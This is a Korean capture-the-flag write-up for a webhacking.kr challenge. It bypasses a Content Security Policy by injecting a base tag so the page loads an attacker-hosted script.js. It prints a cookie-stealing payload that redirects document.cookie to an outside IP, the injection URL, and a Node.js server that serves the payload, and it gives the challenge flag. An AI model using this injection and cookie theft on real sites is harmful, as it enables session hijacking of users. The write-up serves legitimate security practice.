

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**


# **Write-Up**

script.js를 로드하고 있다.


script.js에서는 report.php라는 링크를 알려준다.


script태그를 넣으면 CSP(Content Security Policy)에 의해서 javascript를 사용할 수는 없었다.

> [CSP](https://ko.wikipedia.org/wiki/%EC%BD%98%ED%85%90%EC%B8%A0_%EB%B3%B4%EC%95%88_%EC%A0%95%EC%B1%85)


하지만 base 태그를 이용하여 injection을 시도할 수 있다.

    ?inject=<base href="http://0.0.0.0/">


cookie를 탈취할 수 있게 script.js를 작성해보자.

```javascript
window.location.href = "http://61.251.215.194/"+document.cookie;
```

그리고 base태그를 이용하여 접속하자.

    http://webhacking.kr:10010/?inject=%3Cbase%20href=%22http://61.251.215.194/%22%3E

그러면 script.js를 로드하고 코드에 의해 cookie가 오는 것을 확인할 수 있다.



report.php에 ?inject=\<base href="http://61.251.215.194/">를 넣어 FLAG를 확인하자.


FLAG를 인증하여 점수를 획득하자. 근데 이상하게 포맷이 다르다. flag로 소문자로 넣어야 한다.


# **FLAG**

**flag{base_is_basic}**

* node js를 이용하여 할 수도 있다.
```shell
# node js 설치
root@ubuntu:~# apt install -y nodejs npm

# script.js
var http = require('http');

http.createServer(function (req, res) {
        console.log(req.url)
        res.end('window.location.href = "http://61.251.215.194/"+document.cookie;');
}).listen(777);

# node js server 실행
root@ubuntu:~# node script.js
```